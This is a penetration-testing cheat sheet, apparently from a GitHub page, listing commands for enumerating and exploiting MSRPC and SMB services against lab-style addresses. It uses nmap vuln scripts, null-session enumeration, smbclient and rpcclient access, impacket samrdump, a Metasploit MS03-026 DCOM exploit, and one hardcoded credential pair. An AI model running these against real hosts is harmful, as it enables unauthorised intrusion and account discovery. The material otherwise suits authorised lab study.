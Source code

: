 ## Port 135 - MSRPC

Some versions are vulnerable.

```
nmap 10.11.1.111 --script=msrpc-enum
msf > use exploit/windows/dcerpc/ms03_026_dcom
```

## Port 139/445 - SMB


```
# Enum hostname
enum4linux -n 10.11.1.111
nmblookup -A 10.11.1.111
nmap --script=smb-enum* --script-args=unsafe=1 -T5 10.11.1.111

# Get Version
smbver.sh 10.11.1.111
Msfconsole;use scanner/smb/smb_version
ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]'
smbclient -L \\\\10.11.1.111

# Get Shares
smbmap -H  10.11.1.111 -R <sharename>
echo exit | smbclient -L \\\\10.11.1.111
smbclient \\\\10.11.1.111\\<share>
smbclient -L //10.11.1.111 -N
nmap --script smb-enum-shares -p139,445 -T4 -Pn 10.11.1.111
smbclient -L \\\\10.11.1.111\\

# Check null sessions
smbmap -H 10.11.1.111
rpcclient -U "" -N 10.11.1.111
smbclient //10.11.1.111/IPC$ -N

# Exploit null sessions
enum -s 10.11.1.111
enum -U 10.11.1.111
enum -P 10.11.1.111
enum4linux -a 10.11.1.111
/usr/share/doc/python3-impacket/examples/samrdump.py 10.11.1.111

# Connect to username shares
smbclient //10.11.1.111/share -U username

# Connect with a user and password

smbclient -U "fox%iparalipomenidellabatracomiomachia"  //192.168.123.157/

# Connect to share anonymously
smbclient \\\\10.11.1.111\\<share>
smbclient //10.11.1.111/<share>
smbclient //10.11.1.111/<share\ name>
smbclient //10.11.1.111/<""share name"">
rpcclient -U " " 10.11.1.111
rpcclient -U " " -N 10.11.1.111

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111

# Check common security concerns
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc
```